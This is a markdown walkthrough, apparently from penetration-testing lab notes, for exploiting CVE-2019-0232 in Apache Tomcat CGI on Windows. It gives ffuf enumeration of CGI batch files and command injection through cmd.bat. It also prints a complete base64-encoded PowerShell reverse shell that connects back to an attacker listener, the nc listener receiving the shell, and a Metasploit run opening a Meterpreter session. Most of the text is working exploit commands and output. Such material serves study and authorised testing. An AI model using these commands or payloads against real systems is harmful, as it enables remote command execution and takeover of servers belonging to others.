


# CVE-2019-0232 - Tomcat CGI - Windows

## Enumeration

```bash
$ curl -s http://10.129.123.24:8080/ | grep "Tomcat/" 
        <title>Apache Tomcat/9.0.0.M1</title>
```

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://TARGET_IP:PORT/cgi/FUZZ.bat
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://TARGET_IP:PORT/cgi/FUZZ.cmd
```

ex.:

```bash
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.123.24:8080/cgi/FUZZ.bat

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.123.24:8080/cgi/FUZZ.bat
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 152ms]
:: Progress: [4614/4614] :: Job [1/1] :: 523 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

## Exploitation

```bash
$ curl -s "http://10.129.123.24:8080/cgi/cmd.bat?&dir"
 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi

10/24/2023  10:03 PM    <DIR>          .
10/24/2023  10:03 PM    <DIR>          ..
09/01/2021  07:58 AM    <DIR>          %SystemDrive%
09/29/2021  09:26 AM            73,802 bHPVV.exe
08/31/2021  01:55 PM                48 cmd.bat
10/24/2023  10:03 PM            73,802 XLzrZ.exe
               3 File(s)        147,652 bytes
               3 Dir(s)  28,372,840,448 bytes free
```

We can see the request in Burp if we want

```bash
curl -v --get \
    --proxy http://127.0.0.1:8080 \
    --data-urlencode "=&dir" \
    --url http://10.129.123.24:8080/cgi/cmd.bat
```

```bash
$ curl -v --get \
    --proxy http://127.0.0.1:8080 \
    --data-urlencode "=&dir" \
    --url http://10.129.123.24:8080/cgi/cmd.bat
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080
> GET http://10.129.123.24:8080/cgi/cmd.bat?%26dir HTTP/1.1
> Host: 10.129.123.24:8080
> User-Agent: curl/8.3.0
> Accept: */*
> Proxy-Connection: Keep-Alive
> 
< HTTP/1.1 200 
< Server: Apache-Coyote/1.1
< Content-Type: text/plain
< Content-Length: 483
< Date: Wed, 25 Oct 2023 05:55:29 GMT
< Connection: close
< 
 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi

10/24/2023  10:03 PM    <DIR>          .
10/24/2023  10:03 PM    <DIR>          ..
09/01/2021  07:58 AM    <DIR>          %SystemDrive%
09/29/2021  09:26 AM            73,802 bHPVV.exe
08/31/2021  01:55 PM                48 cmd.bat
10/24/2023  10:03 PM            73,802 XLzrZ.exe
               3 File(s)        147,652 bytes
               3 Dir(s)  28,372,983,808 bytes free
* Closing connection
```



We can also try to get a PowerShell reverse shell

Start listener.

```bash
$ rlwrap -cAr nc -nlvp 8888
listening on [any] 8888 ...

```

Create the payload.



- [RevShell](https://www.revshells.com/)

Run the payload.

```bash
curl -v --get \
    --proxy http://127.0.0.1:8080 \
    --data-urlencode "=&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e JABjAGwA....aQBlAApAA==" \
    --url http://10.129.123.24:8080/cgi/cmd.bat
```

```bash
$ curl -v --get \
    --proxy http://127.0.0.1:8080 \
    --data-urlencode "=&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAAzACIALAA4ADgAOAA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" \
    --url http://10.129.123.24:8080/cgi/cmd.bat
*   Trying 127.0.0.1:8080...
* Connected to 127.0.0.1 (127.0.0.1) port 8080
> GET http://10.129.123.24:8080/cgi/cmd.bat?%26C%3a%5cWindows%5cSystem32%5cWindowsPowerShell%5cv1.0%5cpowershell.exe+-e+JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAAzACIALAA4ADgAOAA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA%3d%3d HTTP/1.1
> Host: 10.129.123.24:8080
> User-Agent: curl/8.3.0
> Accept: */*
> Proxy-Connection: Keep-Alive
```

```bash
$ rlwrap -cAr nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.43] from (UNKNOWN) [10.129.123.24] 49692

PS C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi> dir

    Directory: C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         9/1/2021   7:58 AM                %SystemDrive%                                                         
-a----        9/29/2021   9:26 AM          73802 bHPVV.exe                                                             
-a----        8/31/2021   1:55 PM             48 cmd.bat                                                               
-a----       10/24/2023  10:03 PM          73802 XLzrZ.exe                                                             

PS C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi> 
```

Another option is to use Meterpreter to exploit it.

```bash
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > show options

Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.123.24    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /cgi/cmd.bat     yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.43      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Apache Tomcat 9.0 or prior for Windows

View the full module info with the info, or info -d command.

msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > set ForceExploit true
msf6 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 10.10.14.43:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (175686 bytes) to 10.129.123.24
[*] Command Stager progress - 100.00% done (100668/100668 bytes)
[!] Make sure to manually cleanup the exe generated by the exploit
[*] Meterpreter session 3 opened (10.10.14.43:4444 -> 10.129.123.24:49693) at 2023-10-24 23:16:43 -0700

meterpreter > dir
Listing: C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi
========================================================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2021-09-01 07:58:06 -0700  %SystemDrive%
100777/rwxrwxrwx  73802  fil   2023-10-24 22:03:58 -0700  XLzrZ.exe
100777/rwxrwxrwx  73802  fil   2021-09-29 09:26:19 -0700  bHPVV.exe
100777/rwxrwxrwx  48     fil   2021-08-31 13:55:04 -0700  cmd.bat
100777/rwxrwxrwx  73802  fil   2023-10-24 23:16:39 -0700  umXTp.exe

meterpreter > 
```

## Links

- [CVEDB/Poc-Git](https://github.com/CVEDB/Poc-Git/blob/main/2019/CVE-2019-0232.md)
- [pyn3rd/CVE-2019-0232](https://github.com/pyn3rd/CVE-2019-0232)